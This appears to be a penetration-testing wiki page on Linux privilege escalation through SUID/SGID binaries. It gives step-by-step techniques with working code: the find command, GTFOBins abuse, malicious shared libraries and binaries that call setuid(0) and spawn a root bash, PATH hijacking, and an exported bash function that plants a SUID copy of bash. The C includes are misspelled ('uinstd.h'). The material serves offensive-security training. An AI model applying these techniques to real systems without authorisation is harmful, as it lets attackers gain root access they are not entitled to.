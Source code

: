 # Abusing SUID & SGID Binaries

The [Set Owner User ID (SUID)](../../../system-internals/linux/file-system.md#set-owner-user-id-suid) and [Set Group ID (SGID)](../../../system-internals/linux/file-system.md#set-group-id-sgid) are special permissions which can be attributed to Linux files and folders. Any files which are owned by root and have SUID set will be executed with elevated privileges. Our goal is to hunt down those files and abuse them in order to escalate our privileges. This can be easily done with the following command:

```bash
find / -perm -u=s -type f -user root 2>/dev/null
```

![](<../../../Post Exploitation/Privilege Escalation/Linux/Resources/Images/Abusing SUID & SGID Binaries/Finding SUID Binaries.png>)

## Exploiting Misconfigured Common Binaries

You should diligently inspect the list of files returned. Some standard Linux binaries may allow for privilege escalation if they have the SUID bit set for one reason or another. It is useful to go through these binaries and check them on [GTFOBins](https://gtfobins.github.io/).

In the above example, we find that `/bin/systemctl` has the SUID bit set and that it also has an [entry in GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#suid):

![](<../../../Post Exploitation/Privilege Escalation/Linux/Resources/Images/Abusing SUID & SGID Binaries/Systemctl GTFOBins.png>)

By following the instructions, although with slight modifications, we can run commands with elevated privileges:

![](<../../../Post Exploitation/Privilege Escalation/Linux/Resources/Images/Abusing SUID & SGID Binaries/Systemctl Escalated Privileges.png>)

## Privilege Escalation via Shared Object Injection

Some binaries may be vulnerable to Shared Object (SO) Injection. This typically stems from misconfigurations where the binary looks for a specific library in a specific directory, but can't actually find it. If we have write access to this directory, we can hijack the search for the library by compiling our own malicious library in the place where the original one was supposed to be. This is quite similar to [escalating via LD\_PRELOAD](sudo-escalation-via-ld\_preload.md), but it is a bit more difficult to find and exploit.

You will first need to identify an SUID binary which has misconfigured shared libraries. A lot of the times the binary will refuse to run, saying that it is missing a particular library, however, this is not always the case:

![](<../../../Post Exploitation/Privilege Escalation/Linux/Resources/Images/Abusing SUID & SGID Binaries/suid-so Run.png>)

It is always good practice to run the programme with `strace`, which will print any attempts of the binary to access libraries:

```bash
strace <binary> 2>&1 | grep -iE "open|access"
```

![](<../../../Post Exploitation/Privilege Escalation/Linux/Resources/Images/Abusing SUID & SGID Binaries/strace Library Misconfigurations.png>)

What stands out in particular is the `/home/user/.config/libcalc.so` library, since `/home/user/.config/` may be a writable directory. It turns out that the directory doesn't even exist, however, we can write to `/home/user/` which means that we can create it.

What now remains is to compile a malicious library into `libcalc.so`.

```cpp
#include <uinstd.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject()
{
	setuid(0);
	setgid(0);
	system("/bin/bash -i");
}
```

For older versions of GCC, you may need to use the `_init()` function syntax:

```cpp
#include <uinstd.h>
#include <stdlib.h>

void _init()
{
	setuid(0);
	setgid(0);
	system("/bin/bash -i");
}
```

Compile the malicious library:

```bash
gcc -shared -fPIC -o libcalc.so libcalc.c # add -nostartfiles if using _init()
```

![](<../../../Post Exploitation/Privilege Escalation/Linux/Resources/Images/Abusing SUID & SGID Binaries/Shared Object Injection Successful.png>)

## Privilege Escalation via Path Hijacking

Path Hijacking refers to the deliberate manipulation of environmental variables, most commonly `\$PATH`, such that the invocations of programmes in a binary actually refer to malicious binaries and not the intended ones.

This vector requires more sophisticated digging into the internals of an SUID binary, specifically tracking down the different invocations the binary performs. This can commonly be achieved by running `strings` on the binary, but you will probably have to resort to more serious reverse engineering, as well. Specifically, you want to be on the lookout for shell commands which get executed by the SUID binary.

### Hijacking Relative Paths

Relative paths are comparably easy to hijack - they require little other than editing the `\$PATH` variable. Once you have identified a shell command within an SUID binary which invokes another programme via a relative path, you can just prepend to the `\$PATH` a directory which will contain an executable with the same name as the one originally invoked.

![](<../../../Post Exploitation/Privilege Escalation/Linux/Resources/Images/Abusing SUID & SGID Binaries/Start Apache Relative Path.png>)

Let's compile our own malicious binary.

```cpp
#include <uinstd.h>
#include <stdlib.h>

int main()
{
	setuid(0);
	setgid(0);
	system("/bin/bash -i");

	return 0;
}
```

```bash
gcc -o /tmp/service /tmp/service.c
```

Afterwards, we need to prepend `/tmp` to the `\$PATH` variable:

```bash
export PATH=/tmp:\$PATH
```

And finally, run the original SUID binary:

![](<../../../Post Exploitation/Privilege Escalation/Linux/Resources/Images/Abusing SUID & SGID Binaries/Hijacked Relative Path.png>)

### Hijacking Absolute Paths

Absolute paths require a bit more work to be hijacked.

![](<../../../Post Exploitation/Privilege Escalation/Linux/Resources/Images/Abusing SUID & SGID Binaries/Start Apache Absolute Path.png>)

Luckily, bash turns out to be very sophisticated and allows for the creation of functions which have the forward slash (`/`) character in their name. This means that we can create a malicious bash function with the same name as the absolute path we want to hijack and then our function will be invoked in lieu of the original programme.

First, create the bash function:

```bash
function <absolute path here>() { cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p; }
```

Next, export the function:

```bash
export -f <absolute path here>
```

Finally, run the original SUID binary:

![](<../../../Post Exploitation/Privilege Escalation/Linux/Resources/Images/Abusing SUID & SGID Binaries/Hijacked Absolute Path.png>)
